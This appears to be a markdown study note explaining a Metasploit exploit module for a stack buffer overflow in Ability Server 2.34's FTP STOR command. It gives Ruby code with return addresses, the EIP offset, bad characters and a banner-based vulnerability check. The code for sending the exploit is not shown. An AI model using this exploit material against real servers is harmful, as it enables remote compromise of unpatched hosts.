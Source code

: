 # Exploit module

## Remote Exploit 

### FTP exploit 

#### What we want? 
- Include metasploit FTP suitable module for exploitation
- Take Username and password if required 
- Since the EIP Offset could vary between Window versions, will take target list
- Take the EIP Offset of each target 
- Set the bad characters
- Check if the remote host hast has the vulnerable version 
- Send the exploit



- Include metasploit FTP suitable module for exploitation
- Take Username and password if required 
- Since the EIP Offset could vary between Window versions, will take target list
- Take the EIP Offset of each target 
- Set the bad characters

```ruby

include Msf::Exploit::Remote::Ftp


def initialize(info = {})
super(update_info(info,
  'Name'           => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
  'Description'    => %q{
    This module exploits a stack-based buffer overflow in Ability Server 2.34.
    Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
    which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

    The vulnerability has been confirmed on version 2.34 and has also been reported
    in version 2.25 and 2.32. Other versions may also be affected.
  },
  'Author'         =>
    [
      'muts',           #Initial discovery
      'Dark Eagle',     #same as muts
      'Peter Osterberg' #Metasploit
    ],
  'License'        => MSF_LICENSE,
  'References'     =>
    [
      [ 'CVE', '2004-1626' ],
      [ 'OSVDB', '11030'],
      [ 'EDB', '588'],
    ],
  'DefaultOptions' =>
    {
      'EXITFUNC' => 'process'
    },
  'Privileged'     => false,
  'Payload'        =>
    {
      'Space'    => 1000,
      'BadChars' => "\x00\xff"
    },
  'Platform'       => 'win',
  'Targets'        =>
    [
      [
        'Windows XP SP2 ENG',
        {
          #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
          'Ret' => 0x73E32ECF,
          'Offset' => 966
        }
      ],
      [
        'Windows XP SP3 ENG',
        {
          #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully pathced)
          'Ret' => 0x7E429353,
          'Offset' => 966
        }
      ],
    ],
  'DisclosureDate' => 'Oct 22 2004'
  ))

register_options(
  [
    Opt::RPORT(21),
    OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
    OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
  ], self.class)
end
```


- Check if the remote host hast has the vulnerable version 

```ruby
  def check
    connect
    disconnect
    if banner =~ /Ability Server 2\.34/
      return Exploit::CheckCode::Appears
    else
      if banner =~ /Ability Server/
        return Exploit::CheckCode::Detected
      end
    end
    return Exploit::CheckCode::Safe
  end
```

- 




